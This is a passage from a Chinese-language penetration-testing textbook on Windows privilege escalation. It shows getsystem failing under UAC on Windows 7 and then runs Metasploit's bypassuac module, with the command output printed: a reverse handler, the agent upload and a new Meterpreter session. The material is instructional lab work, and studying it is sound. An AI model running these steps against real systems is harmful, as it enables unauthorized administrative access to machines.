 请记住，要成功进行本地特权升级攻击，必须依赖于某个漏洞，如缺失的补丁或安全配置错误。一个完全更新且已加固的系统不会受到 MS11-08 漏洞的影响，因为供应商在 2011 年发布了补丁。

### 绕过 Windows 上的 UAC

现在让我们看看如何在更加安全的 Windows 7 目标上升级权限，Windows 7 有额外的安全特性，包括*用户账户控制（UAC）*。运行在 Windows Vista 及更高版本上的应用程序仅能使用普通用户权限。如果应用程序需要使用管理员权限，必须由管理员用户批准提升权限。（你可能已经见过当应用程序想要进行更改时，UAC 会发出警告通知。）

因为我们通过让用户*Georgia Weidman*运行恶意二进制文件获得了这个会话，所以 Meterpreter 会话当前具有 Georgia Weidman 的权限。尝试在这个目标上使用`getsystem`，如示例 13-9 所示。

示例 13-9. `getsystem`在 Windows 7 上失败

```
msf exploit(ms11_080_afdjoinleaf) > **sessions -i 2**
[*] Starting interaction with 2...
meterpreter > **getuid**
Server username: Book-Win7\Georgia Weidman
meterpreter > **getsystem**
[-] priv_elevate_getsystem: Operation failed: Access is denied.
```

如你所见，针对该目标运行`getsystem`失败并给出了错误信息。也许该系统已经完全打了补丁并经过加固，以至于`getsystem`中的任何利用技术都无法奏效。

但事实证明，我们的 Windows 7 目标自安装以来没有进行任何补丁更新；UAC 正在阻止`getsystem`正常工作。

和任何计算机安全控制一样，研究人员已经开发了多种技术来绕过 UAC 控制。其中一种技术包含在 Metasploit 中的本地利用模块*windows/local/bypassuac*。背景化会话并在你的 Windows 7 会话上运行这个利用，如示例 13-10 所示。使用这个利用模块，设置`SESSION`选项，等等。

示例 13-10. 使用模块绕过 UAC 控制

```
msf exploit(ms11_080_afdjoinleaf) > **use exploit/windows/local/bypassuac**
msf exploit(bypassuac) > **show options**

Module options (exploit/windows/local/bypassuac):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module
msf exploit(bypassuac) > **set SESSION 2**
SESSION => 2
msf exploit(bypassuac) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] UAC is Enabled, checking level...
--*snip*--
[*] Uploaded the agent to the filesystem....
[*] Sending stage (751104 bytes) to 192.168.20.12
[*] Meterpreter session 5 opened (192.168.20.9:4444 -> 192.168.20.12:49265) at 2015-08-14 02:17:05 -0400
[-] Exploit failed: Rex::TimeoutError Operation timed out. ❶

meterpreter > **getuid**
Server username: Book-Win7\Georgia Weidman
```
